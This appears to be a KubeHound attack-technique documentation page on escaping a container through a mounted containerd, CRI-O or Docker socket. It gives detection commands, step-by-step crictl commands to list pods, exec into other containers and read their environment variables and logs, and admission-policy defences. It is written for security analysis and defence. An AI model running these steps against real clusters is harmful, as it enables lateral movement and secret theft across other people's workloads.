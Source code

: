 ```yaml
---
title: EXPLOIT_CONTAINERD_SOCK
---
```


<!--
id: EXPLOIT_CONTAINERD_SOCK
name: "Container escape: Through mounted container runtime socket"
mitreAttackTechnique: N/A - N/A
mitreAttackTactic: TA0008 - Lateral Movement
-->

# EXPLOIT_CONTAINERD_SOCK

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md)  | [Container](../entities/container.md) | [Lateral Movement, TA0008](https://attack.mitre.org/tactics/TA0008/)  |

Container escape via the `containerd.sock` file that allows executing a binary into another container.

## Details

When the `containerd.sock` (or other equivalent - see the list below) is mounted inside a container, it allows the container to interact with container runtime. Therefore an attacker can execute any command in any container present in the cluster. This allows an attacker to do some lateral movement across the cluster. 

## Prerequisites

Execution within a container process with the following unix socket being (or any parent directory) being mounted inside the container:

```bash
unix:///var/run/dockershim.sock
unix:///run/containerd/containerd.sock
unix:///run/crio/crio.sock
unix:///var/run/cri-dockerd.sock
```

:rotating_light: sockets mounted as readonly can still be used for this attack. :rotating_light: This can be demonstrated as follows:

```bash
# Create an alpine container with the docker socket mounted as readonly
docker run -v /var/run/docker.sock:/var/run/docker.sock:ro --rm -it alpine sh

# Within the alpine container execute a docker command
docker ps
```

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/EXPLOIT_CONTAINERD_SOCK.yaml).

## Checks

Look for any socket being mounted in the container by running a simple find command:

```bash
find / -name dockershim.sock -o -name containerd.sock -o -name crio.sock -o -name cri-dockerd.sock  2>/dev/null
```

## Exploitation

To exploit this vulnerability, we will use a CLI for Kubelet Container Runtime Interface (CRI) provided by Google for debugging purposes:  crictl.

```bash
apt update && apt install -f wget tar
wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.27.0/crictl-v1.27.0-linux-amd64.tar.gz -O /tmp/crictl.tar.gz
tar xvf /tmp/crictl.tar.gz -C /tmp
```

This tools allows to interact with Kubernetes using a unix socket:

```bash
unix:///var/run/dockershim.sock
unix:///run/containerd/containerd.sock
unix:///run/crio/crio.sock
unix:///var/run/cri-dockerd.sock
```

Once you have the path for the mounted socket, configure `crictl` to use it:

```bash
MOUNTED_SOCK_PATH=/host/run/containerd/containerd.sock 
echo "runtime-endpoint: unix://${MOUNTED_SOCK_PATH}
image-endpoint: unix://${MOUNTED_SOCK_PATH}
debug: false" > /tmp/crictl.yaml && alias cc='/tmp/crictl --config /tmp/crictl.yaml'
```

Once everything is configured, you should be able to run command on another container of your choice.

To list all the pods: 

```bash
cc ps -a
```

Executing a command on another pod:

```bash
cc exec -s 05c862f55a017 hostname
``` 

### Notes

The `-s` is important otherwise, `crictl` will try to use the http endpoint to run the command, resulting in errors like:

```bash
FATA[0000] execing command in container: error sending request: Post "http://127.0.0.1:41903/exec/PUpJoUv0": dial tcp 127.0.0.1:41903: connect: connection refused
```

With crictl you can also access sensitive information:
+ `crictl inspect`: access env variable from any container
+ `crictl logs`: retrieve all the logs from any container

## Defences

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount for the following locations:

```bash
/var/run/dockershim.sock
/run/containerd/containerd.sock
/run/crio/crio.sock
/var/run/cri-dockerd.sock
```

## Calculation

+ [ExploitContainerdSock](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_containerd_sock.go)

## References:

+ [CRICTL GitHub](https://github.com/kubernetes-sigs/cri-tools/blob/419e153f330a5f6175aa9b6a03b339080c58ca3e/docs/crictl.md)
+ [Debugging Kubernetes nodes with crictl](https://kubernetes.io/docs/tasks/debug/debug-cluster/crictl/)
